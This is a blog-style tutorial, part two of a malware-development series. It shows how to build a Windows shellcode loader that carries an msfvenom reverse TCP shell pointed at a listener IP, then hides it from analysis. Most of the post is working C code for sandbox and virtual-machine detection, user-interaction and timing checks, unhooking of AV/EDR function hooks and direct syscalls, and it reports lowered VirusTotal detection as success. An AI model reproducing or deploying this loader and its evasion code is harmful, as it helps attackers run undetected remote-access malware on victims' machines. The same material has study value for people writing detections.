

## Introduction
This is the second post of a series which regards development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Previously, we've created basic Metasploit shellcode launcher in C++ and explored basic techniques which helped to lower detection rate of the compiled executable - payload encoding/encryption, binary signing with custom code-signing certificate and switching to x64 architecture.  
Now let's dive deep into dynamic analysis and how to defend against it.

Note: we assume 64-bit execution environment - some code samples may not work for x86 applications (for example due to hardcoded 8-byte pointer length or different data layout in PE and PEB). Also, error checks and cleanups are ommited in the code samples below.

## Dynamic analysis of malware
Dynamic analysis of an executable may be performed either automatically by a sandbox or manually by an analyst. Malicious applications often use various methods to fingerprint the environment they're being executed in and perform different actions based on the situation.

Automated analysis is performed in a simplified sandbox environment which may have some specific traits, particularly it may not be able to emulate all nuances of the real environment. Manual analysis is usually  performed in a virtualized environment and specific additional tools may be encountered (debugger, other analytic software).

Both automated and manual analysis have common characteristics, in particular they are usually performed in a virtualized environment which can be easily detected if not configured (hardened) properly. Most sandbox/analysis detection techniques revolve around checking specific environment attributes (limited resources, indicative device names) and artifacts (presence of specific files, registry keys).

However there are several specific detections for automated sandboxes and other specific for virtual environments used by malware analysts.

### Testing detection
We will use the piece of code from [Malware development part 1](../Malware_development_part_1) which injects XOR-decrypted shellcode into newly allocated memory block and executes it:
```c
void main()
{
	const char shellcode[] = "\xc9\x7d\xb6 (...) ";
	PVOID shellcode_exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, shellcode, sizeof shellcode);
	DWORD threadID;
	for (int i = 0; i < sizeof shellcode; i++)
	{
		((char*)shellcode_exec)[i] = (((char*)shellcode_exec)[i]) ^ '\x35';
	}
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);
}
```
To bypass some static detections, the application targets x64 architecture and is signed with a custom certificate.

This time however we use reverse shell shellcode:

`msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.200.102 -f raw`

We will check if the IP address of reverse shell handler (which is a very basic IoC in this case) will be extracted during dynamic analysis.

Using AV evasion techniques described in the previous article we get already low detection rate on VirusTotal:


Microsoft Defender detects the "Meterpreter trojan" (actually it's just a reverse TCP shell, not a Meterpreter shell). VT sandbox is able to extract IP address during dynamic analysis.

Let's start with generic techniques for dynamic analysis detection and bypassing. 

## Detecting virtualized environment
Both sandboxes and analyst's virtualized OSes usually can't 100% accurately emulate actual execution environment (like typical user workstation). Virtualized environments have limited resources (corresponding device names can also provide useful information), may have VM-specific tools and drivers installed, often look like a fresh Windows installation and sometimes use hardcoded user or computer names.  We can take advantage of that.

### Hardware resources
The main problem are limited resources - a sandbox may not be able to run long and consuming simulations in parallel so is often restricts resources commited and time allocated for a single instance. Regular VM boxes used by analysts are also subject for same constraints - they often have their resources limited.

Typical user workstation has a processor with at least 2 cores, a minimum of 2 GB of RAM and a 100 GB hard drive. We can verify if the environment our malicious application is being executed in is a subject to these constrains:

```c
// check CPU
SYSTEM_INFO systemInfo;
GetSystemInfo(&systemInfo);
DWORD numberOfProcessors = systemInfo.dwNumberOfProcessors;
if (numberOfProcessors < 2) return false;

// check RAM
MEMORYSTATUSEX memoryStatus;
memoryStatus.dwLength = sizeof(memoryStatus);
GlobalMemoryStatusEx(&memoryStatus);
DWORD RAMMB = memoryStatus.ullTotalPhys / 1024 / 1024;
if (RAMMB < 2048) return false;

// check HDD
HANDLE hDevice = CreateFileW(L"\\\\.\\PhysicalDrive0", 0, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
DISK_GEOMETRY pDiskGeometry;
DWORD bytesReturned;
DeviceIoControl(hDevice, IOCTL_DISK_GET_DRIVE_GEOMETRY, NULL, 0, &pDiskGeometry, sizeof(pDiskGeometry), &bytesReturned, (LPOVERLAPPED)NULL);
DWORD diskSizeGB;
diskSizeGB = pDiskGeometry.Cylinders.QuadPart * (ULONG)pDiskGeometry.TracksPerCylinder * (ULONG)pDiskGeometry.SectorsPerTrack * (ULONG)pDiskGeometry.BytesPerSector / 1024 / 1024 / 1024;
if (diskSizeGB < 100) return false;
```
Using these simple checks we were able to drop the detection rate to zero:


Dynamic analysis performed by VirusTotal sandbox didn't provide any IPs (IoCs). That was easy :)

### Devices and vendor names
On default VM installations devices often have predictable names, for example containing strings associated with the specific hypervisor. We can check for hard drive name, optical disk drive name, BIOS version, computer manufacturer and model name, graphics controller name etc. Relevant information can be retrieved with WMI queries (check properties like "Name", "Description", "Caption").

Below you can see an example of HDD name retrieval using native Windows API functions (without WMI): 

```c
HDEVINFO hDeviceInfo = SetupDiGetClassDevs(&GUID_DEVCLASS_DISKDRIVE, 0, 0, DIGCF_PRESENT);
SP_DEVINFO_DATA deviceInfoData;
deviceInfoData.cbSize = sizeof(SP_DEVINFO_DATA);
SetupDiEnumDeviceInfo(hDeviceInfo, 0, &deviceInfoData);
DWORD propertyBufferSize;
SetupDiGetDeviceRegistryPropertyW(hDeviceInfo, &deviceInfoData, SPDRP_FRIENDLYNAME, NULL, NULL, 0, &propertyBufferSize);
PWSTR HDDName = (PWSTR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, propertyBufferSize);
SetupDiGetDeviceRegistryPropertyW(hDeviceInfo, &deviceInfoData, SPDRP_FRIENDLYNAME, NULL, (PBYTE)HDDName, propertyBufferSize, NULL);
CharUpperW(HDDName);
if (wcsstr(HDDName, L"VBOX")) return false;
```

We can also look for specific virtual devices that would not be present in a typical host system, like pipes and other interfaces used for guest-host communication:

```c
OBJECT_ATTRIBUTES objectAttributes;
UNICODE_STRING uDeviceName;
RtlSecureZeroMemory(&uDeviceName, sizeof(uDeviceName));
RtlInitUnicodeString(&uDeviceName, L"\\Device\\VBoxGuest"); // or pipe: L"\\??\\pipe\\VBoxTrayIPC-<username>"
InitializeObjectAttributes(&objectAttributes, &uDeviceName, OBJ_CASE_INSENSITIVE, 0, NULL);
HANDLE hDevice = NULL;
IO_STATUS_BLOCK ioStatusBlock;
NTSTATUS status = NtCreateFile(&hDevice, GENERIC_READ, &objectAttributes, &ioStatusBlock, NULL, 0, 0, FILE_OPEN, 0, NULL, 0);
if (NT_SUCCESS(status)) return false;
```

We should also pay attention to network devices. Especially MAC addresses can indicate presence of a virtual environment since first 3 bytes are manufacturer identificator by default. Let's iterate all available network adapters and compare first bytes with well-known values:

```c
DWORD adaptersListSize = 0;
GetAdaptersAddresses(AF_UNSPEC, 0, 0, 0, &adaptersListSize);
IP_ADAPTER_ADDRESSES* pAdaptersAddresses = (IP_ADAPTER_ADDRESSES*)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, adaptersListSize);
if (pAdaptersAddresses)
{
	GetAdaptersAddresses(AF_UNSPEC, 0, 0, pAdaptersAddresses, &adaptersListSize);
	char mac[6] = { 0 };
	while (pAdaptersAddresses)
	{
		if (pAdaptersAddresses->PhysicalAddressLength == 6)
		{
			memcpy(mac, pAdaptersAddresses->PhysicalAddress, 6);
			if (!memcmp({ "\x08\x00\x27" }, mac, 3)) return false;
		}
	pAdaptersAddresses = pAdaptersAddresses->Next;
	}
}
```

### VM-specific artifacts
There are also specific artifacts present on virtualized environments - files and registry entries indicating presence of a hypervisor. We can check for files and directories associated with drivers, devices and modules provided by the hypervisor and registry keys and values containing configurations or hardware description.

List of directories worth checking for these artifacts include `C:\Windows\System32` and `C:\Windows\System32\Drivers`. Interesting registry keys are `HKLM\SYSTEM\ControlSet001\Services`, `HKLM\HARDWARE\Description\System`, `HKLM\SYSTEM\CurrentControlSet\Control\SystemInformation` and others.

Below is the example code for probing VirtualBox-specific file and registry key:

```c
// check files
WIN32_FIND_DATAW findFileData;
if (FindFirstFileW(L"C:\\Windows\\System32\\VBox*.dll", &findFileData) != INVALID_HANDLE_VALUE) return false;

// check registry key
HKEY hkResult;
if (RegOpenKeyExW(HKEY_LOCAL_MACHINE, L"SYSTEM\\ControlSet001\\Services\\VBoxSF", 0, KEY_QUERY_VALUE, &hkResult) == ERROR_SUCCESS) return false;
```

### File, directory, process and window names

These methods can be used to detect sandbox, virtual machine, debugger or manual analysis environment in general. There are specific applications (and associated process and window names and loaded libraries) that should not be used by a regular user.

#### Application name and directory

Names of binaries analyzed in sandboxes are sometimes changed to generic ones like for example `sample.exe`. Malware analysts may also rename the file before executing. We can check if file or directory name contains "suspicious" character strings. However when we are certain about the name and the path of the executable (e.g. when it is dropped by VBA macro) we can verify if it is indeed executed from assumed location:

```c
wchar_t currentProcessPath[MAX_PATH + 1];
GetModuleFileNameW(NULL, currentProcessPath, MAX_PATH + 1);
CharUpperW(currentProcessPath);
if (!wcsstr(currentProcessPath, L"C:\\USERS\\PUBLIC\\")) return false;
if (!wcsstr(currentProcessPath, L"MALWARE.EXE")) return false;
```

#### Parent process

Sometimes we can assume that the application should be started by a specific process, like `explorere.exe` or `svchost.exe`. Or that it should not be started by for example a debugger. We can put a condition based on the parent process name:

```c
DWORD GetParentPID(DWORD pid)
{
	DWORD ppid = 0;
	PROCESSENTRY32W processEntry = { 0 };
	processEntry.dwSize = sizeof(PROCESSENTRY32W);
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (Process32FirstW(hSnapshot, &processEntry))
	{
		do
		{
			if (processEntry.th32ProcessID == pid)
			{
				ppid = processEntry.th32ParentProcessID;
				break;
			}
		} while (Process32NextW(hSnapshot, &processEntry));
	}
	CloseHandle(hSnapshot);
	return ppid;
}

void main()
{
	DWORD parentPid = GetParentPID(GetCurrentProcessId());
	WCHAR parentName[MAX_PATH + 1];
	DWORD dwParentName = MAX_PATH;
	HANDLE hParent = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, parentPid);
	QueryFullProcessImageNameW(hParent, 0, parentName, &dwParentName); // another way to get process name is to use 'Toolhelp32Snapshot'
	CharUpperW(parentName);
	if (wcsstr(parentName, L"WINDBG.EXE")) return;

	wprintf_s(L"Now hacking...\n");
}
```

#### Running processes

We can enumerate all existing processes and check for typical analysis tools like `Wireshark`, `Procmon`, `x64dbg`, `IDA` etc.

```c
PROCESSENTRY32W processEntry = { 0 };
processEntry.dwSize = sizeof(PROCESSENTRY32W);
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
WCHAR processName[MAX_PATH + 1];
if (Process32FirstW(hSnapshot, &processEntry))
{
	do
	{
		StringCchCopyW(processName, MAX_PATH, processEntry.szExeFile);
		CharUpperW(processName);
		if (wcsstr(processName, L"WIRESHARK.EXE")) exit(0);
	} while (Process32NextW(hSnapshot, &processEntry));
}

wprintf_s(L"Now hacking...\n");
```

#### Loaded libraries

Just like with processes, we can enumerate modules loaded in each process' address space and check for unwanted names:

```c
DWORD runningProcessesIDs[1024];
DWORD runningProcessesBytes;
EnumProcesses(runningProcessesIDs, sizeof(runningProcessesIDs), &runningProcessesBytes);
for (int i = 0; i < runningProcessesBytes / sizeof(DWORD); i++)
{
	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, runningProcessesIDs[i]);
	if (!hProcess) continue;
	HMODULE processModules[1024];
	DWORD processModulesBytes;
	int s1 = EnumProcessModules(hProcess, processModules, sizeof(processModules), &processModulesBytes);
	for (int j = 0; j < processModulesBytes / sizeof(HMODULE); j++)
	{
		WCHAR moduleName[MAX_PATH + 1];
		GetModuleFileNameExW(hProcess, processModules[j], moduleName, MAX_PATH);
		CharUpperW(moduleName);
		if (wcsstr(moduleName, L"DBGHELP.DLL")) exit(0);
	}
}

wprintf_s(L"Now hacking...\n");
```

#### Windows names

Let's also check window names and compare them with names indicating the presence of common malware analysis tools:

```c
BOOL CALLBACK EnumWindowsProc(HWND hWindow, LPARAM parameter)
{
	WCHAR windowTitle[1024];
	GetWindowTextW(hWindow, windowTitle, sizeof(windowTitle));
	CharUpperW(windowTitle);
	if (wcsstr(windowTitle, L"SYSINTERNALS")) *(PBOOL)parameter = true;
	return true;
}

void main()
{
	bool debugged = false;
	EnumWindows(EnumWindowsProc, (LPARAM)(&debugged));
	if (debugged) return;

	wprintf_s(L"Now hacking...\n");
}
```

### User, computer and domain names
Both sandboxes and analysts usuall use computer and user names which are not likely to be encountered on a typical workstation, like `Admin`, `Administrator`, `ADMIN-PC` etc. Also, default machine names following the pattern `DESKTOP-[0-9A-Z]{7}` (or other similar patterns with random characters) are rarely present in corporate environments. We can compare these names with known character strings:

```c
//check computer name
DWORD computerNameLength = MAX_COMPUTERNAME_LENGTH + 1;
wchar_t computerName[MAX_COMPUTERNAME_LENGTH + 1];
GetComputerNameW(computerName, &computerNameLength);
CharUpperW(computerName);
if (wcsstr(computerName, L"DESKTOP-")) return false;

//check user name
DWORD userNameLength = UNLEN;
wchar_t userName[UNLEN + 1];
GetUserNameW(userName, &userNameLength);
CharUpperW(userName);
if (wcsstr(userName, L"ADMIN")) return false;
```

Since we are usually targeting corporate environments, we can assume that the user's computer is a member of a domain. Let's check domain join status of the machine:

```c
PWSTR domainName;
NETSETUP_JOIN_STATUS status;
NetGetJoinInformation(NULL, &domainName, &status);
if (status != NetSetupDomainName) return false;
```

### Screen resolution
Virtualized environments rarely use multiple monitors (especially sandboxes). Virtual displays may also have non-typical screen sizes (especially when fitted to the host screen but not in fullscreen mode - mind the hypervisor window with bars and tabs).

This code sample is a bit more complicated. First we check if the primary display has low resolution. If this check is passed, we enumerate all displays. `EnumDisplayMonitors` function requires a user-defined callback function which it calls for every monitor enumerated providing a handle to the monitor as a parameter. The callback is defined to check every monitor resolution (if it's standard or not) and provide results to a common variable. If any monitor has uncommon width or height, the application decides that it's being executed in a virtualized environment. 

```c
bool CALLBACK MyCallback(HMONITOR hMonitor, HDC hdcMonitor, LPRECT lpRect, LPARAM data)
{
	MONITORINFO monitorInfo;
	monitorInfo.cbSize = sizeof(MONITORINFO);
	GetMonitorInfoW(hMonitor, &monitorInfo);
	int xResolution = monitorInfo.rcMonitor.right - monitorInfo.rcMonitor.left;
	int yResolution = monitorInfo.rcMonitor.top - monitorInfo.rcMonitor.bottom;
	if (xResolution < 0) xResolution = -xResolution;
	if (yResolution < 0) yResolution = -yResolution;
	if ((xResolution != 1920 && xResolution != 2560 && xResolution != 1440)
		|| (yResolution != 1080 && yResolution != 1200 && yResolution != 1600 && yResolution != 900))
	{
		*((BOOL*)data) = true;
	}
	return true;
}

void main()
{
	MONITORENUMPROC pMyCallback = (MONITORENUMPROC)MyCallback;
	int xResolution = GetSystemMetrics(SM_CXSCREEN);
	int yResolution = GetSystemMetrics(SM_CYSCREEN);
	if (xResolution < 1000 && yResolution < 1000)  return false;

	int numberOfMonitors = GetSystemMetrics(SM_CMONITORS);
	bool sandbox = false;
	EnumDisplayMonitors(NULL, NULL, pMyCallback, (LPARAM)(&sandbox));
	if (sandbox) return;

	wprintf_s(L"Now hacking...\n");
}
```

This allowed to lower the detection rate a little bit (the file was flagged as "unsafe" instead of "Meterpreter") and made it impossible to fully analyze the executable (IP IoCs were not extracted):


### "Seasoned" systems
Virtual environments often look like fresh Windows installation. They may lack some artifacts that appear over time on a typical workstation. A good example is number of USB storage devices mounted in the systems which is stored in the registry. We can check if a USB storage was ever mounted on the system:

```c
HKEY hKey;
DWORD mountedUSBDevicesCount;
RegOpenKeyEx(HKEY_LOCAL_MACHINE, L"SYSTEM\\ControlSet001\\Enum\\USBSTOR", 0, KEY_READ, &hKey);
RegQueryInfoKey(hKey, NULL, NULL, NULL, &mountedUSBDevicesCount, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
if (mountedUSBDevicesCount < 1) return false;
```

This check also allowed to lower the detection rate (the file was flagged as "unsafe" by Cylance) and thwarted network IoCs analysis.


### Time zone
When we target specific users or ogranization, we can prevent our code from being executed in an environment having the time zone set to a different value than our target. Make sure the system time zone name is not dependent on the system language.

```c
SetThreadLocale(MAKELCID(MAKELANGID(LANG_ENGLISH, SUBLANG_ENGLISH_US), SORT_DEFAULT));
DYNAMIC_TIME_ZONE_INFORMATION dynamicTimeZoneInfo;
GetDynamicTimeZoneInformation(&dynamicTimeZoneInfo);
wchar_t timeZoneName[128 + 1];
StringCchCopyW(timeZoneName, 128, dynamicTimeZoneInfo.TimeZoneKeyName);
CharUpperW(timeZoneName);
if (!wcsstr(timeZoneName, L"CENTRAL EUROPEAN STANDARD TIME")) return false;
```

Again, lower detection rate and no IoCs:


## Detecting automated analysis
There are several evasions specific to automated sandboxes. They are based on particularly limited resources available in sandbox environments. Such execution environments often lack actual Internet connection and user interaction.

### Internet connection
Sandboxes usually do not provide Internet connection however they may simulate valid responses from remote servers. Let's see when we make shellcode execution dependent on the result of a HTTP request:

```c
HINTERNET hSession = WinHttpOpen(L"Mozilla 5.0", WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnection = WinHttpConnect(hSession, L"my.domain.or.ip", INTERNET_DEFAULT_HTTP_PORT, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", L"test", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, NULL);
WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
BOOL status = WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
if (!status) return false;
```

Analysis results were slightly better (for us) than without HTTP connection checking. IP IoCs were not extracted by VT sandbox.


Single HTTP request was received on the target server. This means that some systems extend the analysis to the "real world".

We can further develop this evasion method and execute the shellcode only after receiving a specific response:

```c
HINTERNET hSession = WinHttpOpen(L"Mozilla 5.0", WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
HINTERNET hConnection = WinHttpConnect(hSession, L"my.domain.or.ip", INTERNET_DEFAULT_HTTP_PORT, 0);
HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", L"test", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, NULL);
WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0);
WinHttpReceiveResponse(hRequest, 0);
DWORD responseLength;
WinHttpQueryDataAvailable(hRequest, &responseLength);
PVOID response = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, responseLength + 1);
WinHttpReadData(hRequest, response, responseLength, &responseLength);
if (atoi((PSTR)response) != 1337) return false;
```

Results (no IP IoCs):


This technique can leverage HTTPS, DNS and other network requests.

### User interaction
Only selected sandboxes can simulate user interaction (like clicking on a pop-up window). We can issue a message box before executing the malicious code:

```c
MessageBoxW(NULL, L"Just click OK", L"Hello", 0);
```


Actually `MessageBox` function returns a value based on what button was clicked. We can use additional parameters to create more buttons and continue execution only when specific buttons are clicked. However this assumes that a user will actually click the proper button. Also, we may not want a user to see any message when our code is executing.

```c
int response = MessageBoxW(NULL, L"Do you want to restart your computer now?", L"Restart required", MB_YESNOCANCEL);
if (response == IDYES) return false;
```


This bypasses some AVs however MS Defender is still able to identify the "Meterpreter trojan":


Now let's require specific ammount of user interaction - we can wait until the user moves mouse for a specific distance. This may take a minute or two for a typical user and even longer for a sandbox (hopefully exceeding allocated time frame for the emulation):

```c
POINT currentMousePosition;
POINT previousMousePosition;
GetCursorPos(&previousMousePosition);
double mouseDistance = 0;
while (true)
{
	GetCursorPos(&currentMousePosition);
	mouseDistance += sqrt(
		pow(currentMousePosition.x - previousMousePosition.x, 2) +
		pow(currentMousePosition.y - previousMousePosition.y, 2)
	);
	Sleep(100);
	previousMousePosition = currentMousePosition;
	if (mouseDistance > 20000) break;
}
```

Malicious intents were detected only by MS Defender ("Meterpreter"). No IP IoCs were extracted by VT sandbox:


### Previous user interaction
Sandboxes will probably lack specific indicators of previous user interaction with the system, for example the list of recently accessed documents may be empty or contain a low number of entries. We can browse the `%APPDATA%\Microsoft\Windows\Recent` folder and count items inside:

```c
PWSTR recentFolder = NULL;
SHGetKnownFolderPath(FOLDERID_Recent, 0, NULL, &recentFolder);
wchar_t recentFolderFiles[MAX_PATH + 1] = L"";
StringCbCatW(recentFolderFiles, MAX_PATH, recentFolder);
StringCbCatW(recentFolderFiles, MAX_PATH, L"\\*");
int numberOfRecentFiles = 0;
WIN32_FIND_DATAW findFileData;
HANDLE hFind = FindFirstFileW(recentFolderFiles, &findFileData);
if (hFind != INVALID_HANDLE_VALUE)
{
	do
	{
		numberOfRecentFiles++;
	} while (FindNextFileW(hFind, &findFileData));
}
if (numberOfRecentFiles >= 2) numberOfRecentFiles-=2; //exclude '.' and '..'
if (numberOfRecentFiles < 20) return false;
```

This is effective - only 1 AV flagged the binary (as suspicious), no IP IoCs extracted:



### Number of running processes
As sandbox environments have limited resources they may limit the number of processes running to the minimum. We can assume that a typical user has at least 50 processes running at any moment. Let's enumerate running processes:

```c
DWORD runningProcessesIDs[1024];
DWORD runningProcessesCountBytes;
DWORD runningProcessesCount;
EnumProcesses(runningProcessesIDs, sizeof(runningProcessesIDs), &runningProcessesCountBytes);
runningProcessesCount = runningProcessesCountBytes / sizeof(DWORD);
if (runningProcessesCount < 50) return false;
```

VirusTotal was unable to extract IP IoCs from this binary:


### Uptime
System uptime may have a low value in a sandbox, especially when the virtual environment is spun up each time a file is analyzed. We use 64-bit function as regular `GetTickCount` overflows after 2^32 milliseconds (49,7 days):

```c
ULONGLONG uptime = GetTickCount64() / 1000;
if (uptime < 1200) return false; //20 minutes
```

Again, detected by MS Defender and marked as unsafe by Cylance. No IP IoCs were extracted by VT sandbox:


### Delaying execution
Delaying execution may evade sandbox analysis by exceeding the time limit for the sample execution. However it's not as easy as `Sleep(1000000)`. Sandboxes may fast-forward our "naps". 

What we can do is to check system uptime before and after Sleeping. We can also use lower-level userland API for sleeping (there is a slightly less chance that it is hooked by AV). This requires obtaining function address dynamically - it will be broader used during API calls obfuscation described in one of the next articles. Also, `NtDelayExecution` function requires the sleep time parameter in a different format than `Sleep`:

```c
ULONGLONG uptimeBeforeSleep = GetTickCount64();
typedef NTSTATUS(WINAPI *PNtDelayExecution)(IN BOOLEAN, IN PLARGE_INTEGER);
PNtDelayExecution pNtDelayExecution = (PNtDelayExecution)GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "NtDelayExecution");
LARGE_INTEGER delay;
delay.QuadPart = -10000 * 100000; // 100 seconds
pNtDelayExecution(FALSE, &delay);
ULONGLONG uptimeAfterSleep = GetTickCount64();
if ((uptimeAfterSleep - uptimeBeforeSleep) < 100000) return false;
```

Analysis results: Unsafe ® by Cylance, no IP IoCs by VT sandbox:


#### Kernel-user shared data

Some sophisticated sandbox may hook both `Sleep` function (or even kernel mode `ZwDelayExecution`; however I think that kernel hooks require hypervisor-level access nowadays) and `GetTickCount64` (or kernel mode `KeQueryTickCount`) . We can use the [`KUSER_SHARED_DATA`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/structs/kuser_shared_data/index.htm) structure which is shared by the system kernel with user-mode (in read-only mode of course) and contains information about the "tick count". This structure It is always located at the same address in the memory (`0x7ffe0000`). Actual system uptime (`KSYSTEM_TIME` structure) is stored at the offset 0x320. We can just read it from the system's memory and use to check if tickcount-related functions were manipulated by the sandbox:

```c
Sleep(1000000);
ULONG *PUserSharedData_TickCountMultiplier = (PULONG)0x7ffe0004;
LONG *PUserSharedData_High1Time = (PLONG)0x7ffe0324;
ULONG *PUserSharedData_LowPart = (PULONG)0x7ffe0320;
DWORD time = GetTickCount64();
DWORD kernelTime = (*PUserSharedData_TickCountMultiplier) * (*PUserSharedData_High1Time << 8) +
	((*PUserSharedData_LowPart) * (unsigned __int64)(*PUserSharedData_TickCountMultiplier) >> 24);
if ((time - kernelTime) > 100 && (kernelTime - time) > 100) return false;
```

### Function hooking
AVs/EDRs/Sandboxes can hook specific functions (ones often used for malicious purposes, like `NtCreateThreadEx` for code injection or `NtReadVirtualMemory` for memory reading - especially in case of `lsass.exe` dumping for credentials extraction). When a function is hooked, its first instructions are usually overwritten with a jump to another function in an external library, which can make some checks to discover malicious activity and decide to block further execution. Let's see how to detect and fix function hooks.

#### Checking and unhooking functions

We could check function assembly bytes and see if there's any sign of hooking (like `call` instruction or a combination of `push` and `ret` instructions). However there's a better approach: we can compare the function instructions loaded in the memory with `.dll` contents on the disk. Let's see how to do it for `NtCreateThreadEx` function from `ntdll.dll`. We open the library file from disk and map it into memory. Then we browse its headers to find relative location of the export directory. Next we loop through function names stored in `AddressOfNames` array and look for "NtCreateThreadEx" name [(to find actual function code location we need to browse through the `AddressOfNameOrdinals` array)](https://resources.infosecinstitute.com/the-export-directory/).

```c
// manually load the dll
HANDLE dllFile = CreateFileW(L"C:\\Windows\\System32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
DWORD dllFileSize = GetFileSize(dllFile, NULL);
HANDLE hDllFileMapping = CreateFileMappingW(dllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
HANDLE pDllFileMappingBase = MapViewOfFile(hDllFileMapping, FILE_MAP_READ, 0, 0, 0);
CloseHandle(dllFile);

// analyze the dll
PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pDllFileMappingBase;
PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((PBYTE)pDllFileMappingBase + pDosHeader->e_lfanew);
PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&(pNtHeader->OptionalHeader);
PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((PBYTE)pDllFileMappingBase + pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
PULONG pAddressOfFunctions = (PULONG)((PBYTE)pDllFileMappingBase + pExportDirectory->AddressOfFunctions);
PULONG pAddressOfNames = (PULONG)((PBYTE)pDllFileMappingBase + pExportDirectory->AddressOfNames);
PUSHORT pAddressOfNameOrdinals = (PUSHORT)((PBYTE)pDllFileMappingBase + pExportDirectory->AddressOfNameOrdinals);

// find the original function code
PVOID pNtCreateThreadExOriginal = NULL;
for (int i = 0; i < pExportDirectory->NumberOfNames; ++i)
{
	PCSTR pFunctionName = (PSTR)((PBYTE)pDllFileMappingBase + pAddressOfNames[i]);
	if (!strcmp(pFunctionName, "NtCreateThreadEx"))
	{
		pNtCreateThreadExOriginal = (PVOID)((PBYTE)pDllFileMappingBase + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
		break;
	}
}

// compare functions
PVOID pNtCreateThreadEx = GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "NtCreateThreadEx");
if (memcmp(pNtCreateThreadEx, pNtCreateThreadExOriginal, 16)) return false;
```

Ok, now let's simulate the case when `MessageBoxW` is hooked in a way that  it immediately returns (with `C3` opcode - `RET` function). We want to detect the hook and patch the function with original assembly code from the dll located on the disk. This is useful when we want to execute some "blacklisted" functions (or a function with specific parameters that are forbiddensa).

```c
// function hooking - usually done by AV/EDR/Sandbox
// this assumes that user32.dll is loaded into the process' address space
PVOID pMessageBoxW = GetProcAddress(GetModuleHandleW(L"user32.dll"), "MessageBoxW");
DWORD oldProtect;
VirtualProtect(pMessageBoxW, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
char hook[] = { 0xC3 }; // ret
memcpy(pMessageBoxW, hook, 1);
VirtualProtect(pMessageBoxW, 1, oldProtect, &oldProtect);

MessageBoxW(NULL, L"Hooked", L"Hooked", 0); // won't show up

// detect and fix the hook
PVOID pMessageBoxWOriginal = LoadDllFromDiskAndFindFunctionCode(); // see the previous code snippet
PVOID pMessageBoxWHooked = GetProcAddress(GetModuleHandleW(L"user32.dll"), "MessageBoxW");
if (memcmp(pMessageBoxWHooked, pMessageBoxWOriginal, 16))
{
	DWORD oldProtection, tempProtection;
	VirtualProtect(pMessageBoxW, 16, PAGE_EXECUTE_READWRITE, &oldProtection);
	memcpy(pMessageBoxWHooked, pMessageBoxWOriginal, 16);
	VirtualProtect(pMessageBoxW, 16, oldProtection, &tempProtection);
}
MessageBoxW(NULL, L"Fixed", L"Fixed", 0);
```

#### Direct syscalls

Another thing we can do to bypass user-mode API hooks is to invoke direct system calls. Let's first analyze our simple malware with Process Monitor.

Recap: the executable injects shellcode and creates new thread to run it: 

`HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);`

Thread creation event is captured:


We see that `CreateThread` function called from the code results in a call to `NtCreateThreadEx`. Then execution switches to kernel mode (ring 0) using a `syscall` CPU instruction with [syscall ID](https://j00ru.vexillium.org/syscalls/nt/64/) stored in the `EAX` register.


If the `NtCreateThreadEx` function is hooked, we may not be able to reach the syscall when calling this function, or other higher-level functions like `CreateThread` etc. We can however bypass the hook by generating the syscall directly from our code - all we need to do is to push all function parameters to the stack (this can be done in C) and issue the syscall (with assembly).

